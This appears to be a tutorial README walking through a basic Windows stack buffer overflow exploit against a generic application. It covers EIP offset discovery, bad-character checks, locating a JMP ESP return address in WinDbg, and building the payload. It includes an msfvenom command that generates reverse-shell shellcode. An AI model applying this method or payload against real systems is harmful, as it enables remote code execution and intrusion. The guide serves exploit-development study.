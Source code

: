 ## Stack Overflow - Basic

### Table of Contents

* 1.0 [Crash the application.](#Crash)
* 2.0 [Control the EIP.](#EIP)
* 3.0 [Locate Space for our shellcode.](#LocateShellcode)
* 4.0 [Calculate Space for our shellcode.](#SpaceShellcode)
* 5.0 [Checking for bad characters.](#BadChars)
* 6.0 [Finding Returning address.](#JMP)
* 7.0 [Controling the Execution Flow.](#ControlExecutionFlow)
* 8.0 [Get a Shell!](#Shell)
* 9.0 [No Shell?](#NoShell)


### 1. Crash the application. ("A" buffer.)<a name="Crash"></a>

```python
...
size = 3000

buffer = "A" * size
...
```



### 2. Control the EIP.<a name="EIP"></a>

First, generate the unique string, locate the EIP value, and locate it's exact offset.

```bash
┌──(v0lk3n㉿Laptop)-[~/StackOverflow-Basic]
└─$ msf-pattern_create -l 3000
...

# Replace the buffer with this unique string in our PoC.
# Run the PoC and pick the EIP value at the time of the crash.

┌──(v0lk3n㉿Laptop)-[~/StackOverflow-Basic]
└─$ msf-pattern_offset -q <EIP> -l 3000
...
#Let's say EIP offset = 2600
```

Now Verify that you control EIP. ("A" + "B" + "C" buffer.)

```python
...
size = 3000

buffer = "A" * 2600
eip = "B" * 4
shellcode = "C" * (size - len(buffer) - len(eip))
...
````



### 3. Locate Space for our shellcode. ("A" + "B" + "C" buffer.)<a name="LocateShellcode"></a>

```python
size = 3000

buffer = "A" * 2600
eip = "B" * 4
shellcode = "C" * 700
```

Verify that we didn't caused a different crash and inspect the stack pointer at the time of the crash.

```bash
0:005> dds esp L3
```

Check where begin our "C" buffer.

```bash
0:005> dds esp -10 L20
```

If the ESP register didnt point exactly at the begin of our "C" buffer, for example, the ESP point 8 offset after the beginning of our bunch of "C". This will cause a problem as the bunch of "C" will be the place for our shellcode. We can avoid this by adding after te EIP, "8 * C" for the 8 offset, then "692 * D" for our shellcode.

```python
size = 3000

buffer = "A" * 2600
eip = "B" * 4
offset = "C" * 8
shellcode = "D" * 692
...
```



### 4. Calculate Space for our shellcode.  ("A" + "B" + "C" + "D" buffer, where "C" is our 8 offset, and "D" is our shellcode place.)<a name="SpaceShellcode"></a> 

Check the Beginning of the "D" buffer.

```bash
0:005> dds esp -8 L7
```

Check the End of "D" buffer. (dds esp+250 L4)

```bash
0:005> dds esp+250 L4
```

Calcule the place for our shellcode. 

```bash
0:005> ? <End of the buffer> - <Beginning of the buffer>
```



### 5. Checking for bad characters. (0x00 is not in the list and is considered as bad char)<a name="BadChars"></a>

```python
 ...
 size = 3000
 
 buffer = b"A" * 2600
 eip = b"B" * 4
 offset = b"C" * 8
 badchars = (
 b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d"
 b"\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a"
 b"\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27"
 b"\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34"
 b"\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41"
 b"\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e"
 b"\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b"
 b"\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68"
 b"\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75"
 b"\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82"
 b"\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
 b"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c"
 b"\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9"
 b"\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6"
 b"\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3"
 b"\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
 b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd"
 b"\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea"
 b"\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7"
 b"\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

```bash
0:005> db esp - 10 L110
```



### 6. Finding Returning address.<a name="JMP"></a>

Locate a dll without protection (SEH OFF) using the WinDbg extension <a href="https://code.google.com/archive/p/narly/">"Narly"</a>

```bash
0:005> .load narly

0:005> !nmod
```

Find opcodes of JMP ESP instruction.

```bash
nasm > JMP ESP
00000000  FFE4              jmp esp
```

Locate a jmp esp instruciton inside the dll. Be sure that the address didn't contain any bad characters.

```bash
0:005> lm m Appli1
Browse full module list
start    end        module name
12400000 12423000   Appli1   (deferred)

0:005> s -b 12400000 12423000 0xff 0xe4
124060cf  ...

0:005> u 124060cf
...
124060cf ffe4            jmp     esp
...
```



### 7. Controling the Execution Flow.<a name="ControlExecutionFlow"></a>

Replace the B buffer with JMP ESP instruction (EIP).

```python
...
size = 3000

buffer = b"A" * 2600
eip = b"\xcf\x60\x40\x12" # 124060cf JMP ESP 
offset = b"C" * 8
shellcode = b"D" * 692
...
```

Set a breakpoint to JMP ESP, continue the execution flow, and run the PoC.

```bash
0:005> bp 124060cf
0:005> g
```

Walking throught the code with "t" command, once we reach the next instruction of "JMP ESP", read the value of esp register to confirm it contain our bunch of "D".

```bash
...
0:005> t
...
0:005> dc esp L4
```



### 8. Get a Shell!<a name="Shell"></a>

Replace our bunch of D with our shellcode excluding the found badchars (only 0x00 in our case).

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -b "\x00" -f python -v shellcode
```

Execute our exploit and get a shell.



### 9. No Shell?<a name="NoShell"></a>

If after executing the PoC you didn't get a shell, analyse the crash.

If you see that you'r shellcode is mangled, you can use NOPs instruction before the shellcode, those instruction will be executed since it reach the shellcode to execute it.

```python
...
size = 3000

buffer = b"A" * 2600
eip = b"\xcf\x60\x40\x12" # 124060cf JMP ESP 
offset = b"C" * 8
nops = b"\x90" * 10
shellcode = <Shellcode Here>
...
```
